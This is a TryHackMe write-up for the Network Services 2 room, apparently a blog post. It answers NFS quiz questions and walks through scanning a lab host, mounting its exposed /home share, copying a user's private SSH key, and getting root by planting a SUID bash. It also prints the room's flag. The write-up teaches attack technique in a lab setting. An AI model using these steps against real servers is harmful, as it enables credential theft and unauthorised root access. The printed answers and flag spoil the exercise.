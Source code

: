 ```yaml
---
layout: post
title: Network Services 2 Room Writeup
categories: [TryHackMe]
tags: [Writeup]
---
```


# TryHackMe: Network Services 2 Room Writeup

> Enumerating and Exploiting More Common Network Services & Misconfigurations

### Task 2

**What does NFS stand for?**

> Network File System

**What process allows an NFS client to 
interact with a remote directory as though it was a physical device?**

> mounting

**What does NFS use to represent files and directories on the server?**

> file handle

**What protocol does NFS use to communicate between the server and client?**

> RPC

**What two pieces of user data does the NFS server take as parameters for 
controlling user permissions? Format: parameter 1 / parameter 2**

> user ID / group ID

**Can a Windows NFS server share files with a Linux client? (Y/N)**

> Y

**Can a Linux NFS server share files with a MacOS client? (Y/N)**

> Y

**What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.**

> 4.2

Task 3

**Conduct a thorough port scan scan of your choosing, how many ports are open?**

In practice, when you use nmap to scan a huge range of ports, it can take really a long time. So instead of setting up a huge port range, we can divide it into several ranges to make the scanning time short.

```
nmap -A -p1-10000 10.10.186.1
nmap -A -p10001-20000 10.10.186.1
nmap -A -p20001-30000 10.10.186.1
nmap -A -p30001-40000 10.10.186.1
nmap -A -p40001-50000 10.10.186.1
```

> 7

**Which port contains the service we're looking to enumerate?**

> 2049

**Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?**

```
showmount -e 10.10.186.1
```

> /home

**Change directory to where you mounted the share- what is the name of the folder inside?**

```
mkdir /tmp/mount
mount -t nfs 10.10.186.1:/home /tmp/mount/ -nolock
cd /tmp/mount/
ls
```

> cappucino

**Which of these folders could contain keys that would give us remote access to the server?**

> .ssh

**Which of these keys is most useful to us?**

> id_rsa

**Can we log into the machine using *ssh -i <key-file> <username>@<ip>* ? (Y/N)**

```
cp id_rsa ~
cd ~
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.186.1
```

> Y

### Task 4

**Now, we're going to add the SUID bit permission to the bash executable 
we just copied to the share using "sudo chmod +[permission] bash". What 
letter do we use to set the SUID bit set using chmod?**

```
chmod +s bash
```

> s

**Let's do a sanity check, let's check the
 permissions of the "bash" executable using "ls -la bash". What does the
 permission set look like? Make sure that it ends with -sr-x.**

```
chmod +x bash
ls -la bash
```

> rwsr-sr-x

**Now, SSH into the machine as the 
user. List the directory to make sure the bash executable is there. Now,
 the moment of truth. Lets run it with "*./bash -p*". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.**

```
ssh -i id_rsa cappucino@10.10.186.1
./bash -p
```

Now we have entered into a root shell.

> No answer needed

**Great! If all's gone well you should have a shell as root! What's the root flag?**

Change to root home directory, then you can find a text file containing the flag.

```
cd /root
cat root.txt
```

> THM{nfs_got_pwned}
